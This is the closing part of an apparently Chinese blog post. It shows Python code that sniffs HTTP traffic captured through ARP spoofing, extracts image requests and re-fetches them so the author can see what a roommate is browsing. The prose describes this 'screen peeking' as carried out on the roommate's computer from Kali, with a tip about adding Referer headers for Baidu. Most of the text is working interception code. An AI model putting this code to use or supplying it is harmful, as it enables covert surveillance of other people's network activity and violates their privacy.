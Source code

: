                 if img!=[]:
                    lines=p.data.data.data.split('\n')
                    for line in lines:
                        if 'Host:' in line:
                            url='http://'+line.split(':')[-1].strip()+img[-1]
                            if url not in urllist:
                                urllist.append(url)
                                if 'Referer:' in p.data.data.data:
                                    for line in lines:
                                        if 'Referer:' in line:
                                            referer=line.split(':')[-1].strip()
                                            print url
                                            r=requests.get(url,headers={'Referer':referer})
                                            img=Image.open(BytesIO(r.content))
                                            img.show()
                                else:
                                    r=requests.get(url)
                                    img=Image.open(BytesIO(r.content))
                                    img.show()
                            else:
                                pass
if __name__=='__main__':
    main()  
代码将pcap从本机网卡捕获到的完整的网络数据包使用dpkt库将其中封装的http应用层数据包提取出来，通过正则表达式将请求图片的http请求过滤出来，并在本机请求并输出，完成窥屏，效果如下:

用法 stealimg,py -i wlan0

室友电脑浏览图片

图片

自己kali可以窥屏

图片

注意一点，百度的图片爬取要在http请求头中加上Referer字段，否则会出现403禁止访问，代码只是简单的实现了窥屏的效果，还有着很多不足，不过通过这次学习可以对arp欺骗攻击有更深的理解
